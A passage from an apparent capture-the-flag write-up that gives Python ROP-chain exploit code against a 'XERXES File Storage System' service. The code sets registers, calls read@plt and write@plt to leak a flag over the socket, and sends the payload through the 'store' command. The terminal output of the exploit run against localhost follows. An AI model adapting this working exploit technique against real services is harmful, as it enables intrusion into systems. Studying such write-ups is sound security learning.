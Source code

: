 ```python
buf += p64(0x20)            # set r13 to num bytes to read
buf += p64(0x00601000)      # set r14 to buf to read contents of flag to
buf += p64(0x4)             # set r15 sock fd, most likely fd 4

# call read@plt
buf += p64(0x400920)

# move values in r12-r15 registers to the actual registers we need to use
buf += p64(0x004010d0)      # set rdx, rdi, rsi
buf += "JUNKJUNK"           # removed by add rsp, 0x8

# we're not chaining any more functions after write@plt so it doesn't matter
# what gets popped into the rest of the registers
buf += p64(0x0)             # junk
buf += p64(0x0)             # junk
buf += p64(0x0)             # junk
buf += p64(0x0)             # junk
buf += p64(0x0)             # junk
buf += p64(0x0)             # junk

# call write@plt
buf += p64(0x4008b0)

buf += "C"*(800-len(buf))

# send store command
print r.recvuntil(">")
r.send("store")

# send size of file
print r.recvuntil(">")
r.send("500")

# send file
print r.recvuntil(">")
r.send(buf)
print r.recvall()
```

Hopefully that wasn't too confusing. Here's the exploit in action:

```text
$ ./sploit.py
[+] Opening connection to localhost on port 8888: Done
Welcome to 
 XERXES File Storage System
  available commands are:
  store, read, exit.

>
  Please, how many bytes is your file?

>
  Please, send your file:

>
[+] Recieving all data: Done (295B)
[*] Closed connection to localhost port 8888
    XERXES is pleased to inform you
    that your file was received
        most successfully.
 Please, give a filename:
>   XERXES will store
   this data as 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAX'.
```